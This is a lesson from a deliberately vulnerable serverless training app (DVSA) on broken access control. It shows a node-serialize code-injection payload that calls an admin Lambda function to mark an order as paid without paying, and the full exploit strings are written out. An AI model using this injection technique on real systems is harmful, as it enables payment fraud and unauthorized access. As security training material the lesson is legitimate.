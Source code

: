 # LESSON #5: Broken Access Control

The DVSA applicaiton has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) is it possible to invoke admin function using the standard API calls.

This means that by invoking the right funciton at the right time, we can skip the payment. But, first, we start with the normal flow:

- ```{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}```

- ```{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}```

- ```{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}```

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:

```
neworder = {"body":{"action":"update", "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba", "item":{"userId": "12312312-1233-1233-1233-123123123123", "token": "aSD32d2ASd2", "ts": "1545594489", "itemList": {"20":2}, "address": {"name": "john doe", "email": "secret@email.com", "address": "po box 12333"}, "total":25, "status":120}}}
```

Now, we have to pass it as part of the exploit itself:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

Which eventually looks like that:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify({\"body\": {\"action\": \"update\", \"item\": {\"status\": 120, \"userId\": \"12312312-1233-1233-1233-123123123123\", \"ts\": 1545594489, \"token\": \"aSD32d2ASd2\", \"itemList\": {\"20\": 2}, \"address\": {\"address\": \"po box 131337\", \"name\": \"john doe\", \"email\": \"secret@email.com\"}, \"total\": 25}, \"order-id\": \"cc241d5c-f665-48db-8e55-4391f62465ba\"}});var a=require(\"aws-sdk\");var l=new a.Lambda();var x={FunctionName:\"DVSA-ADMIN-UPDATE-ORDERS\",InvocationType:\"RequestResponse\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

![alt stealing](https://i.imgur.com/8NXyXlQ.png)

We got an error from the API function. But the database was updated with the new data. Since we did not issue a SQS notification for the payment, the receipts will be proccessed with a daily cron-job function. However, it is already possible to see it in the orders page.

